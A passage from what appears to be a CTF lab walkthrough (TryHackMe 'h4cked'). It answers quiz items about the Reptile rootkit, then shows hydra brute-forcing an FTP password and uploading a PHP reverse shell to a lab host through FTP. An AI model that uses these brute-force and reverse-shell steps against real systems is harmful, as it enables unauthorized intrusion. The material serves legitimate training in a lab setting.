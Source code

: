 Answer: `Reptile`

## 1.13 -  The project can be used to install a stealthy backdoor on the system. It can be very hard to detect. What is this type of backdoor called?

By navigating to the github link, we find out about the type of the backdoor that the attacker used.

Answer: `rootkit`


# [Task 2] Hack your way back into the machine

Now we have to hack our way back into the machine and obtain a flag. Let's deploy the machine and start!

## Log into FTP

We can follow the path that the attacker took. So the first thing I did was brute-forcing user `jenny`'s password for FTP service:

~~~
┌──(user㉿Y0B01)-[~/Desktop/walkthroughs/thm/h4cked]
└─$ hydra -l jenny -P /usr/share/wordlists/rockyou.txt $IP ftp          
Hydra v9.3-dev (c) 2021 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2021-10-17 09:03:38
[DATA] max 16 tasks per 1 server, overall 16 tasks, 14344398 login tries (l:1/p:14344398), ~896525 tries per task
[DATA] attacking ftp://10.10.26.98:21/
[21][ftp] host: 10.10.26.98   login: jenny   password: 987654321
1 of 1 target successfully completed, 1 valid password found
~~~

Jenny's ftp password: `987654321`

## Reverse Shell

I logged on FTP service using the creds I got (`jenny:987654321`) and then uploaded a new reverse shell which you an get [here](https://github.com/pentestmonkey/php-reverse-shell). Don't forget to change the IP to yours.

~~~
┌──(user㉿Y0B01)-[~/…/walkthroughs/thm/h4cked/files]
└─$ ftp $IP
Connected to 10.10.26.98.
220 Hello FTP World!
Name (10.10.26.98:user): jenny
331 Please specify the password.
Password:
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> put shell.php
local: shell.php remote: shell.php
200 PORT command successful. Consider using PASV.
150 Ok to send data.
226 Transfer complete.
5491 bytes sent in 0.00 secs (29.9236 MB/s)
ftp> ls
200 PORT command successful. Consider using PASV.
150 Here comes the directory listing.
~~~